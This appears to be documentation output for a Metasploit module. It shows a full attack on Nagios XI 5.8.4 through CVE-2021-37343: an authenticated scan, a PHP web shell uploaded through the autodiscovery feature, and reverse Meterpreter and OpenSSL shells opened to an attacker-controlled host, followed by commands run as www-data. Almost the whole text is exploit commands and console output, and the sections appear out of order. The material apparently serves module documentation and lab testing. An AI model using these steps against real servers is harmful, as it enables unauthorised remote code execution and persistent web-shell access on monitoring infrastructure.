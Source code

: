 ```
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Sending stage (989032 bytes) to 10.0.0.6
[+] Deleted /usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
[*] Command Stager progress - 100.00% done (700/700 bytes)
[*] Deleting autodiscovery job
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44224 ) at 2022-02-05 17:53:27 -0800

meterpreter > shell
Process 800816 created.
Channel 1 created.
uname -a
Linux ubuntu 5.13.0-27-generic #29~20.04.1-Ubuntu SMP Fri Jan 14 00:32:30 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
whoami
www-data
pwd
/usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp
```

### Nagios XI 5.8.4 - Get a reverse shell

```
msf > use auxiliary/scanner/http/nagios_xi_scanner
msf auxiliary(scanner/http/nagios_xi_scanner) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf auxiliary(scanner/http/nagios_xi_scanner) > set PASSWORD labpass1
PASSWORD => labpass1
msf auxiliary(scanner/http/nagios_xi_scanner) > run

[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.8.4
[+] The target appears to be vulnerable to the following 1 exploit(s):
[*] 
[*] 	CVE-2021-37343    exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/nagios_xi_scanner) > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set target 0
target => 0
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse double SSL handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Executing Unix Command for cmd/unix/reverse_openssl
```